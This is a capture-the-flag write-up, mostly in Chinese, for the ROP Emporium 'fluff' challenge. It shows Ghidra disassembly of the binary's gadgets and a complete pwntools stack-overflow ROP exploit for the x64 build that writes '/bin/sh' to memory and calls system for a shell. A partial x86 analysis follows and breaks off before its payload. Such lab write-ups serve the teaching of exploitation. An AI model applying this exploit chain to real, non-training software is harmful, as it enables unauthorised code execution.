fluff
via：https://ropemporium.com/challenge/fluff.html
The concept here is identical to the write4 challenge. The only difference is we may struggle to find gadgets that will get the job done. If we take the time to consider a different approach we’ll succeed. Click below to download the binary.
Working backwards
Once we’ve employed our usual drills of checking protections and searching for interesting symbols and strings we can think about what we’re trying to acheive and plan our chain. A solid approach is to work backwards; we’ll need a mov [reg], reg or something equivalent to make the actual write so we can start there.
Do it!
There’s not much more to this challenge, we just have to think about ways to move data into the registers we want to control. Sometimes we’ll need to take an indirect approach, especially in smaller binaries with fewer available gadgets like this one. Once you’ve got a working write primitive go ahead and craft your solution. If you don’t feel like doing the hard work note that the 64 bit version of this challenge can also be pwned using the same single link chain that works on write4 🤦♂️
x64

可以看到漏洞点这里
填充长度：0x20 + 0x8

程序开了 NX 也就是栈不可执行，不能像前面一样直接使用 shellcode 然后call rax
ROPgadget 瞎逛一下


没有拿 shell 和拿 flag 的字符串
现在有两条路可以走
ret2libc，使用 puts 泄露出 某个已经被 call 过的函数的 got 表上的地址，从而得到 libc 的基地址，然后用这个基地址加上 sh 在 libc 里的偏移得到 sh 的地址，然后调用 system 拿到 shell
找 gadget 把 sh 写到内存里去，然后调用 system 拿到 shell
官方的意思是让我们用第二种方法
找一下有没有适合的 gadget
主要目的是写内存
我很奇怪，回到 ghidra 看看是不是有后门

？？？？？？我昨晚 4 点怕是瞎了，有一个 questionableGadgets()
********************************************
* FUNCTION *
********************************************
undefined questionableGadgets()
undefined AL:1 <RETURN>
questionableGadgets XREF[1]: Entry Point(*)
00400820 41 5f POP R15
00400822 4d 31 db XOR R11,R11
00400825 41 5e POP R14
00400827 bf 50 MOV EDI,data_start
10 60 00
0040082c c3 RET
0040082d 41 ?? 41h A
0040082e 5e ?? 5Eh ^
0040082f 4d ?? 4Dh M
00400830 31 ?? 31h 1
00400831 e3 ?? E3h
00400832 41 ?? 41h A
00400833 5c ?? 5Ch \
00400834 41 ?? 41h A
00400835 bd ?? BDh
00400836 60 ?? 60h `
00400837 40 ?? 40h @
00400838 60 ?? 60h `
00400839 00 ?? 00h
0040083a c3 ?? C3h
0040083b bf ?? BFh
0040083c 50 ?? 50h P
0040083d 10 ?? 10h
0040083e 60 ?? 60h `
0040083f 00 ?? 00h
00400840 4d ?? 4Dh M
00400841 87 ?? 87h
00400842 d3 ?? D3h
00400843 41 ?? 41h A
00400844 5f ?? 5Fh _
00400845 41 ?? 41h A
00400846 bb ?? BBh
00400847 50 ?? 50h P
00400848 20 ?? 20h
00400849 60 ?? 60h `
0040084a 00 ?? 00h
0040084b c3 ?? C3h
0040084c 41 ?? 41h A
0040084d 5f ?? 5Fh _
0040084e 4d ?? 4Dh M
0040084f 89 ?? 89h
00400850 1a ?? 1Ah
00400851 41 ?? 41h A
00400852 5d ?? 5Dh ]
00400853 41 ?? 41h A
00400854 5c ?? 5Ch \
00400855 45 ?? 45h E
00400856 30 ?? 30h 0
00400857 22 ?? 22h "
00400858 c3 ?? C3h
00400859 0f ?? 0Fh
0040085a 1f ?? 1Fh
0040085b 80 ?? 80h
0040085c 00 ?? 00h
0040085d 00 ?? 00h
0040085e 00 ?? 00h
0040085f 00 ?? 00h
后面这些反编译器遇到 ret 后直接不反编译了，手动反编译看看
反正 ghidra 下，选中，按 d 就可以
是这样的：

其实这个算半个后门
********************************************
* FUNCTION *
********************************************
undefined questionableGadgets()
undefined AL:1 <RETURN>
questionableGadgets XREF[1]: Entry Point(*)
00400820 41 5f POP R15
00400822 4d 31 db XOR R11,R11
00400825 41 5e POP R14
00400827 bf 50 MOV EDI,data_start
10 60 00
0040082c c3 RET
0040082d 41 5e POP R14
0040082f 4d 31 e3 XOR R11,R12
00400832 41 5c POP R12
00400834 41 bd MOV R13D,0x604060
60 40
60 00
0040083a c3 RET
0040083b bf 50 MOV EDI,data_start
10 60 00
00400840 4d 87 d3 XCHG R11,R10
00400843 41 5f POP R15
00400845 41 bb MOV R11D,_ITM_registerTMCloneTable = ??
50 20
60 00
0040084b c3 RET
0040084c 41 5f POP R15
0040084e 4d 89 1a MOV qword ptr [R10],R11
00400851 41 5d POP R13
00400853 41 5c POP R12
00400855 45 30 22 XOR byte ptr [R10],R12B
00400858 c3 RET
00400859 0f 1f NOP dword ptr [RAX]
80 00
00 00 00
抽取需要的 gadget：
;这里可以给 R12 赋值，这个最终会进入 R10（0x00400832 -> 0x0040082f -> 0x00400840）
00400832 41 5c POP R12
00400834 41 bd MOV R13D,0x604060
60 40
60 00
0040083a c3 RET
; xor 置 0 R11 ，因为如果 R11 不是 0 后面会影响到（0x0040082f）
00400822 4d 31 db XOR R11,R11
00400825 41 5e POP R14
00400827 bf 50 MOV EDI,data_start
10 60 00
0040082c c3 RET
0040082f 4d 31 e3 XOR R11,R12
00400832 41 5c POP R12
00400834 41 bd MOV R13D,0x604060
60 40
60 00
0040083a c3 RET
; XCHG指令，双操作数指令，用于交换 src 和 dest 操作数的内容。其中， src 和 dest 可以是两个通用寄存器，也可以是一个寄存器和一个 memory 位置。
; 其实这一步是为 0x0040084e 写内存做铺垫，当 R11 存的是一个地址时，在 0x0040084e 就是往这个地址写
00400840 4d 87 d3 XCHG R11,R10
00400843 41 5f POP R15
00400845 41 bb MOV R11D,_ITM_registerTMCloneTable = ??
50 20
60 00
0040084b c3 RET
00400822 4d 31 db XOR R11,R11
00400825 41 5e POP R14
00400827 bf 50 MOV EDI,data_start
10 60 00
0040082c c3 RET
0040082f 4d 31 e3 XOR R11,R12
00400832 41 5c POP R12
00400834 41 bd MOV R13D,0x604060
60 40
60 00
0040083a c3 RET
; 写内存
0040084e 4d 89 1a MOV qword ptr [R10],R11
00400851 41 5d POP R13
00400853 41 5c POP R12
00400855 45 30 22 XOR byte ptr [R10],R12B
00400858 c3 RET
我们需要把 /bin/sh 字符串 写进 data 段，因为在 0x00400827 把 data 段的地址放进了 edi 然后一直到我们的 rop 链结束都没有改变过，这样，只要 /bin/sh 的地址一直存在 edi 里面，在调用 system 的时候就不用 pop rdi 了。
有点乱，仔细看吧，写 payload ：
#!/bin/env python2
#! _*_ coding=utf-8 _*_
from pwn import *
fluff = ELF("./fluff")
p = process("./fluff")
bin_sh = "/bin/sh\x00"
system_plt = fluff.plt["system"]
pop_r12_ret = 0x400832
pop_r14_ret = 0x400822
xor_r11_r12_pop_r12_ret = 0x0040082f
pop_r15_ret = 0x00400840
pop_r13_pop_r12_ret = 0x0040084e
data_section = 0x601050
exp = "A" * 0x28
exp += p64(pop_r12_ret)
exp += p64(data_section)
'''
r12 = data_section
r13 = 0x604060
'''
exp += p64(pop_r14_ret)
exp += "A" * 8
'''
r11 = r11 ^ r11
r14 = "AAAAAAAA"
edi = data_start (data_section == data_section)
'''
exp += p64(xor_r11_r12_pop_r12_ret)
exp += bin_sh
'''
r11 = r11 ^ r12 (r11 == 0, r12 == data_section, 所以 r11 = data_section)
r12 = "/bin/sh\x00"
r13 = 0x604060
'''
exp += p64(pop_r15_ret)
exp += "A" * 8
'''
xchg r11,r10 (交换 r11 和 r10 的值)
r15 = "AAAAAAAA"
r11 = _ITM_registerTMCloneTable
'''
exp += p64(pop_r14_ret)
exp += "A" * 8
'''
r11 = r11 ^ r11 (r11 = 0)
r14 = "AAAAAAAA"
'''
exp += p64(xor_r11_r12_pop_r12_ret)
exp += "A" * 8
'''
r11 = r11 ^ r12 (r11 = r12)
r12 = "AAAAAAAA"
'''
exp += p64(pop_r13_pop_r12_ret)
exp += "A" * 8
exp += "\x00" * 8
'''
*(r10) = r11 (往 r10 存的地址上写入 r11, 其实 r11 就是 /bin/sh\x00, r10 存的是 data_section)
相当于往 data_section 写入 /bin/sh\x00
r13 = "AAAAAAAA"
r12 = "\x00\x00\x00\x00\x00\x00\x00\x00"
*(r10) = *(r10) ^ r12 (那个 r12B 就是取 r12 的一个 Bytes，为了防止这个破坏 *(r10) ,前一步把 r12 置 \x00, 任何字符异或 \x00 都得到它本身)
'''
exp += p64(system_plt)
'''
call system
参数就是 data_section
上面已经把 data_section 复制给 edi
'''
p.sendline(exp)
p.interactive()
完整的汇编是这样的：
0x400804 <pwnme+79> nop
0x400805 <pwnme+80> leave
0x400806 <pwnme+81> ret
↓
0x400832 <questionableGadgets+18> pop r12
0x400834 <questionableGadgets+20> mov r13d, 0x604060
0x40083a <questionableGadgets+26> ret
↓
0x400822 <questionableGadgets+2> xor r11, r11
0x400825 <questionableGadgets+5> pop r14
0x400827 <questionableGadgets+7> mov edi, data_start <0x601050>
0x40082c <questionableGadgets+12> ret
↓
0x40082f <questionableGadgets+15> xor r11, r12
0x400832 <questionableGadgets+18> pop r12
0x400834 <questionableGadgets+20> mov r13d, 0x604060
0x40083a <questionableGadgets+26> ret
↓
0x400822 <questionableGadgets+2> xor r11, r11
0x400825 <questionableGadgets+5> pop r14
0x400827 <questionableGadgets+7> mov edi, data_start <0x601050>
0x40082c <questionableGadgets+12> ret
↓
0x40082f <questionableGadgets+15> xor r11, r12
0x400832 <questionableGadgets+18> pop r12
0x400834 <questionableGadgets+20> mov r13d, 0x604060
0x40083a <questionableGadgets+26> ret
↓
0x400840 <questionableGadgets+32> xchg r11, r10
0x400843 <questionableGadgets+35> pop r15
0x400845 <questionableGadgets+37> mov r11d, 0x602050
0x40084b <questionableGadgets+43> ret
↓
0x400822 <questionableGadgets+2> xor r11, r11
0x400825 <questionableGadgets+5> pop r14
0x400827 <questionableGadgets+7> mov edi, data_start <0x601050>
0x40082c <questionableGadgets+12> ret
↓
0x40082f <questionableGadgets+15> xor r11, r12
0x400832 <questionableGadgets+18> pop r12
0x400834 <questionableGadgets+20> mov r13d, 0x604060
0x40083a <questionableGadgets+26> ret
↓
0x40084e <questionableGadgets+46> mov qword ptr [r10], r11
0x400851 <questionableGadgets+49> pop r13
0x400853 <questionableGadgets+51> pop r12
0x400855 <questionableGadgets+53> xor byte ptr [r10], r12b <0x601050>
0x400858 <questionableGadgets+56> ret
↓
0x4005e0 <system@plt> jmp qword ptr [rip + 0x200a3a] <0x601020>

pwn！
x86
不多说废话，还是在 questionableGadgets() 函数
********************************************
* FUNCTION *
********************************************
undefined questionableGadgets()
undefined AL:1 <RETURN>
questionableGadgets XREF[1]: Entry Point(*)
08048670 5f POP EDI
08048671 31 d2 XOR EDX,EDX
08048673 5e POP ESI
08048674 bd be MOV EBP,0xcafebabe
ba fe ca
08048679 c3 RET
0804867a 5e POP ESI
0804867b 31 da XOR EDX,EBX
0804867d 5d POP EBP
0804867e bf be MOV EDI,0xdeadbabe
ba ad de
08048683 c3 RET
08048684 bf ef MOV EDI,0xdeadbeef
be ad de
08048689 87 ca XCHG EDX,ECX
0804868b 5d POP EBP
0804868c ba d0 MOV EDX,0xdefaced0
ce fa de
08048691 c3 RET
08048692 5f POP EDI
08048693 89 11 MOV dword ptr [ECX],EDX
08048695 5d POP EBP
08048696 5b POP EBX
08048697 30 19 XOR byte ptr [ECX],BL
08048699 c3 RET
0804869a 66 90 NOP
0804869c 66 90 NOP
0804869e 66 90 NOP

我们的目的是写内存，直接找到能写内存的 gadget
08048692 5f POP EDI
08048693 89 11 MOV dword ptr [ECX],EDX
08048695 5d POP EBP
08048696 5b POP EBX
08048697 30 19 XOR byte ptr [ECX],BL
08048699 c3 RET
写入 ecx 存的地址
找，怎么给 ecx 赋值：
08048689 87 ca XCHG EDX,ECX
0804868b 5d POP EBP
0804868c ba d0 MOV EDX,0xdefaced0
ce fa de
08048691 c3 RET
通过 edx
找，怎么给 edx 赋值：
0804867a 5e POP ESI
0804867b 31 da XOR EDX,EBX
0804867d 5d POP EBP
0804867e bf be MOV EDI,0xdeadbabe
ba ad de
08048683 c3 RET
这个异或会把结果放进 edx，要么能找到 pop edx 和 xor ebx,ebx 要么 pop ebx 和 xor edx,edx
有：
08048670 5f POP EDI
08048671 31 d2 XOR EDX,EDX
08048673 5e POP ESI
08048674 bd be MOV EBP,0xcafebabe
ba fe ca
08048679 c3 RET
ROPgadget 找一下有没有 pop ebx; ret

有
0x080483e1 : pop ebx ; ret
好了，现在能设置写入的内存地址了
找一下，写字符串怎么放进去
一样，逆向找：
08048693 89 11 MOV dword ptr [ECX],EDX
需要设置 edx
没有直接 pop edx，只能间接赋值
0804867b 31 da XOR EDX,EBX
这个异或会把结果放进 edx，要么能找到 pop edx 和 xor ebx,ebx 要么 pop ebx 和 xor edx,edx
发现了吗，跟设置 ecx 的某些步骤重叠了
有：
08048670 5f POP EDI
08048671 31 d2 XOR EDX,EDX
08048673 5e POP ESI
08048674 bd be MOV EBP,0xcafebabe
ba fe ca
08048679 c3 RET
ROPgadget 找一下有没有 pop ebx; ret
漏洞点

填充长度：0x28 + 0x4
好了，可以写 payload 了：
逆序看找 gadget 的步骤，只能先设置 ecx 的值，因为先设置 edx 的话我们没办法清空设置 edx 时 ecx 设置的值
设置 ecx，ecx 是要设置一个可写可读的内存的起始地址
